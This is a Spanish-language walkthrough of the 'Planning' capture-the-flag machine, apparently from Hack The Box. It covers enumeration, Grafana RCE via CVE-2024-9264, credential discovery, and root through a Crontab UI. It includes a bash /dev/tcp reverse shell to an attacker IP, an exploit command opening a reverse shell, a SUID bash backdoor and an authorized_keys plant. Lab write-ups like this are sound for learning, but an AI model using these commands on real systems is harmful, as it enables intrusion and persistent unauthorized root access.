 # Planning

**Dificultad:** Easy  
**SO:** Linux  

## Información de la máquina

Como en un pentest real, empezamos con las credenciales para la cuenta: `admin / 0D5oT70Fq13EvB5r`.

## Metodología

### Reconocimiento inicial

#### Reconocimiento del SO y puertos con NMAP

Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.68
nmap -sS -p- --min-rate 5000 10.10.11.68 -oG allPortsPlanning
nmap -sCV -p 22,80 -n -nP 10.10.11.68 -oA sondeoPlanning
```

![Ping](images/planning_ping_inicial.PNG)
![Nmap puertos](images/planning_allPorts.PNG)
![Nmap ervicios](images/planning_sondeo.PNG)

#### Actualizar /etc/hosts (actúa como dns local)

Asociamos el nombre del host (planning.htb) con su dirección IP (10.10.11.68).

```bash
nano /etc/hosts
```

![/etc/hosts](images/planning_dns_local.PNG)

### Reconocimiento web

#### Análisis con Wappalyzer

Permite identificar las `tecnologías` que se utilizan en esta `web`.

![Wappalyzer](images/planning_wappalyzer.PNG)

#### Enumeración de subdirectorios con Gobuster

Al observar que se utiliza PHP, añadimos la opción -x php.

```bash
gobuster dir -u http://planning.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php
```

![Gobuster](images/planning_gobuster.PNG)

#### Enumeración de subdominios con Wfuzz

Primero vemos el comportamiento de los subdominios inválidos.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```

![Wfuzz](images/planning_wfuzz_inicial.PNG)

Luego le metemos el `hide lines`, para `filtrar` todas las respuestas que tengan 7.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
```

![Wfuzz filtrado](images/planning_wfuzz_grafana.PNG)

#### Mapeamos el nuevo subdominio en /etc/hosts

Asociamos grafana.planning.htb con la dirección IP del dominio (10.10.11.68).

![Wfuzz filtrado](images/planning_dns_subdominio.PNG)

#### Grafana
Página de login de Grafana en grafana.planning.htb.

![Wfuzz filtrado](images/planning_grafana_web_login.PNG)

Accedemos con las credenciales que nos han proporcionado (admin:0D5oT70Fq13EvB5r) y comprobamos que `Grafana v11.0.0` es vulnerable.

![Grafana](images/planning_grafana_dashboard_v11.PNG)

### CVE-2024-9264 - RCE en Grafana

Vulnerabilidad de ejecución remota de código (RCE) en Grafana v11.0.0.

La `función experimental de SQL Expressions` en Grafana, `permite ejecutar consultas en duckdb` que contienen información del usuario.

El problema radica en que `las consultas no se sanitizan` correctamente antes de ser procesadas por duckdb, lo que `permite una inyección de comandos y vulnerabilidad de inclusión de archivos locales (LFI)`.

Cualquier usuario con permiso de VIEWER o superior puede aprovechar esta vulnerabilidad para ejecutar comandos arbitrarios en el servidor.

Es importante destacar que para que el ataque funcione, `el binario de duckdb debe estar presente en el $PATH de Grafana`, aunque por defecto no viene instalado en las distribuciones estándar.

[Grafana Security Advisory CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)
[Github-CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

#### Reverse shell

Ejecutamos el exploit y obtenemos una `reverse shell` como root.

```bash
python3 reverse.py --url http://grafana.planning.htb/ --username "admin" --password "0D5oT70Fq13EvB5r" --reverse-ip 10.10.16.19 --reverse-port 1337
```

![Reverse shell](images/planning_exploit.PNG)

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación

Viendo el nombre del `hostname 7ce659d667d7` ya se puede intuir que estamos es un `contenedor docker`, para confirmalo vemos quien es el proceso 1 (en este caso `Grafana` ha sido la aplicación que se lanzó con el contenedor).

![Proceso 1](images/planning_process_1.PNG)

#### LinPEAS

Utilicé `LinPEAS` para enumerar posibles vectores de escalada, aunque lo primero es `subirlo al contenedor`.

![Subir LinPEAS](images/planning_linpeas.PNG)

Encontrando las credenciales para `enzo:RioTecRANDEntANT!` en las variables de entorno (sin linPEAS, con env o printenv).

![Subir LinPEAS](images/planning_linpeas_env.PNG)

#### SSH

Nos conectamos por SSH con el usuario enzo.

```bash
ssh enzo@10.10.11.68
```

![SSH 1](images/planning_ssh_enzo1.PNG)
![SSH 2](images/planning_ssh_enzo2.PNG)

#### Escalada a root

Buscando servicios internos con `netstat -ano`, me encontré con grafana escuchando en el 3000 [Grafana docs](https://grafana.com/docs/grafana/latest/setup-grafana/start-restart-grafana/#docker-compose-example) y otro servicio en el 8000, pero requería autenticación.

![NetStat](images/planning_conexiones_locales.PNG)
![Servicio desconocido](images/planning_servicio_desconocido.PNG)

Tras investigar el sistema un rato, me encontré el archivo `crontab.db` en la ruta `/opt/crontab/crontab.db`. Al parecer hay una tarea programada en JSON que ejecuta un backup diario de un contenedor docker, donde guarda la imagen `root_grafana` en un grafana.tar y después la comprime en un .zip protegido con la contraseña `P4ssw0rdS0pRi0T3c`.

Ahora con esta contraseña, pruebo a autenticarme de nuevo contra el servicio desconocido con diferentes usuarios (enzo, root_grafana y root). Obteniendo un HTTP 200 OK con `root:P4ssw0rdS0pRi0T3c`.

```bash
curl -u enzo:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root_grafana:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root:P4ssw0rdS0pRi0c http://localhost:8000/ -v
```

![Autenticado contra el servicio desconocido](images/planning_autenticacion_servicio_desconocido.PNG)

#### Port Forwarding

Para comprender mejor que hay ahí vamos a redirigir el trafico desde un puerto de mi máquina local hacia el puerto donde está corriendo este servicio en la maquina remota.

```bash
ssh -L 8080:127.0.0.1:8000 enzo@10.10.11.68
```

![Port Forwarding](images/planning_port_forwarding.PNG)

#### Crontab UI

El servicio que corre en localhost:8000 es un Crontab UI desde donde se pueden ejecutar comandos one-liner como root.

![Crontab UI](images/planning_crontab_ui.PNG)

Maneras de convertirnos en root:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1337 0>&1'
```

![Root - Simple reverse](images/planning_crontab_simple_reverse.PNG)

```bash
cp /bin/bash /usr/local/bin/upupup && chmod 4755 /usr/local/bin/upupup
cp /bin/bash /usr/local/bin/upupup && chmod u+s /usr/local/bin/upupup
```

![Root - Bit SUID](images/planning_crontab_suid_shell.PNG)

```bash
echo 'ssh-rsa AAAAB3Nz...LJzNu/ZQ== kali@kali' > /root/.ssh/authorized_keys
```

![Root - SSH authorized_keys](images/planning_crontab_ssh_pub.PNG)

### Limpieza del entorno

Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/planning_limpieza_entorno.PNG)
